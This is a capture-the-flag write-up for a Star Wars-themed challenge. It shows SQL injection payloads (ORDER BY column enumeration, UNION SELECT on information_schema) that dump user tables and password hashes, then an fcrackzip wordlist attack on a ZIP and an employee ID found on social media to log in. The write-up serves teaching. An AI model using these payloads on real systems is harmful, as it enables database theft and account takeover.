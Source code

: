 # Challenge Zero
The challenge begins by directing to a website https://emprie.site/ and asking you to locate a way to log in

## SQL Injection
The Gallery page may immediatly be found to be vulnerable to a SQL injection. Furthermore, 
it's a pretty simple/straightforward injection to exploit.

### Enumerate the number of columns
```
1 order by 1
1 order by 2
1 order by 3
1 order by 4
1 order by 5
1 order by 6 <-- error
```

There are 5 columns returned as part of the query.

### Tables
```
1 union all select table_name, 2, 3, 4, 5 from information_schema.tables
```

Looks like there are three tables of interest:
* pages
* secret_pages
* users

#### Users table
Obtaining the list of columns from the users table reveals the following:

```
+------------------------------------------------------------------+-----------+
| password                                                         | username  |
+------------------------------------------------------------------+-----------+
| 2a8b3484cc216f51611d0f49b80029c66b5928df3939e344cb8d3dd4814c5bbc | tc_174812 |
| 2d579cd75056723657b8fa68fa6626c245cd362030159965efbdf41da2d67adf | tc_133337 |
+------------------------------------------------------------------+-----------+
```

Throwing the hashes into a hash cracker reveals that `tc_133337` has a password of `redherring`. 
That doesn't seem to be able to log in or anything, so it must actually be a...redherring.

#### Pages Table

```
+---------+----------+----------------------------------+---------------------------------------+----------------+
| page_id | is_draft | page_uri                         | page_title                            | page_thumbnail |
+---------+----------+----------------------------------+---------------------------------------+----------------+
| 1       | 0        | tie_fighter_speed.html           | Tie Fighters                          | tf.png         |
| 2       | 0        | storm_trooper_sharp_shooter.html | Storm Trooper Accuracy                | st.png         |
| 3       | 0        | death_star_reborn.html           | Death Star Reborn                     | deathstar.jpeg |
| 4       | 1        | redacted.html                    | REDACTED - Super Secret Plans Message | plan.jpg       |
+---------+----------+----------------------------------+---------------------------------------+----------------+
```

The `redacted.html` page seems interesting, however upon visiting it, the page just informs us 
that the page has moved to the `secret_pages` table.

#### Secret Pages Table

```
+---------+----------+---------------------------------+----------------------------+----------------+
| page_id | is_draft | page_uri                        | page_title                 | page_thumbnail |
+---------+----------+---------------------------------+----------------------------+----------------+
| 1       | 0        | super_secret_plans_message.html | Super Secret Plans Message | plan.jpg       |
+---------+----------+---------------------------------+----------------------------+----------------+
```

This `super_secret_plans_message.html` seems interesting, lets check it out! https://emprie.site/pages/super_secret_plans_message.html

## Morse Code
On the `super_secret_plans_message.html` page, there's an audio file that plays with what sounds like
morse code, throwing it into a .mp3 file and uploading it to a website (like this)[https://morsecode.world/international/decoder/audio-decoder-adaptive.html]
that can decode morse code gives us a URL:

https://c3p.xyz

## Password Cracking
The c3p.xyz website contains a password-protected .zip and a wordlist file, downloading the two and using
`frackzip` gives us the password:

```bash
$ fcrackzip -u -D -p wordlist.txt documents.zip                                                                                1 ⚙


PASSWORD FOUND!!!!: pw == itacolita
```

## Examine Documents
The ZIP file contained a few documents, but the most helpful is `disciplinary_note.txt` which conaints:

```
Emplpoyee Username: tc_trooper_174812
EmployeeID: ***-**-****
Date: 2045-04-06
Infraction: The employee was found posting sensitive information (EmployeeID) on social media. This kind of data breach could allow for unauthorized access to our employee portal.
Disciplinary Action: The employee must remove the post from their social media and obtain a new EmployeeID. This is their first warning.

**REMINDER DO NOT POST PICTURES OF BADGE ANYWHERE ONLINE! THIS CONTAINS YOUR SECRET EMPLOYEEID NUMBER!**
```

So, it seems that an employee `tc_trooper_174812` has revealed information. This took me a bit but it is
actually on a REAL social media page (not just part of the CTF). Searching for that username will give
you the [Instagram page for that user](https://www.instagram.com/p/CPCnYIOMIVo/)!

On the Instagram page, we can see a badge which lists `32145609` as the employee ID.

## Logging In
Going back to the original website and logging in with:

Username: `tc_trooper_174812`
Password: `32145609`

Success!

Flag: `silicon{B0rN_70_8E_R3b3ls}`

